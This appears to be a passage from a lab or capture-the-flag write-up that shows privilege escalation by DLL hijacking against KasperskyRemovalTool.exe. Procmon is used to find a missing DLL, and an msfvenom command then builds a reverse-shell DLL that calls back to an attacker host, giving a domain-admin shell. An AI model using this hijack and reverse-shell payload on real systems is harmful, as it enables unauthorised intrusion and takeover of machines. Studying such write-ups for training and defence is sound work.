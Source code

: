 <img src="https://i.imgur.com/GG6A2nI.png"/>

## Privilege Escalation (cpowers)

Transferring the exe on windows machine and running  `Process Monitor/Procmon` to analyze which DLL is being loaded by this exe, on launching procmon, it's going to capture all system events

<img src="https://i.imgur.com/I6udiIF.png"/>

Running `KasperskyRemovalTool.exe` to make sure it's events gets logged 

<img src="https://i.imgur.com/DFNIdc2.png"/>

Hit `ctrl+E` to stop capturing for system events and apply filters to only display kaspersky process

<img src="https://i.imgur.com/UFcZZfy.png"/>

First applying the filter for `KasperskyRemovalTool` process name

<img src="https://i.imgur.com/OFcP8pt.png"/>

Next adding the filter for the dll files

<img src="https://i.imgur.com/3UYgNc0.png"/>

Lastly for dlls which are not found, Here we'll see `KasperskyRemovalToolENU.dll`
being loaded, so we need to create 32 bit DLL since the exe is in PE32 format

<img src="https://i.imgur.com/1oc42AY.png"/>

<img src="https://i.imgur.com/Zml2plQ.png"/>

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.0.136 LPORT=2222 -f dll > KasperskyRemovalToolENU.dll
```

<img src="https://i.imgur.com/pak3uR1.png"/>

Transferring the dll file and putting it in `C:/AVTest` as the dll was being loaded from the same location from where the exe was being executed

<img src="https://i.imgur.com/PVBDuAq.png"/>

Now wait for few seconds for the exe to be triggered which will execute our malicious dll and we'll get a shell as `cpowers`

<img src="https://i.imgur.com/rrSSqSb.png"/>

This user was a member of `domain admin` , so we have complete access on the first machine

<img src="https://i.imgur.com/UpuNwjk.png"/>
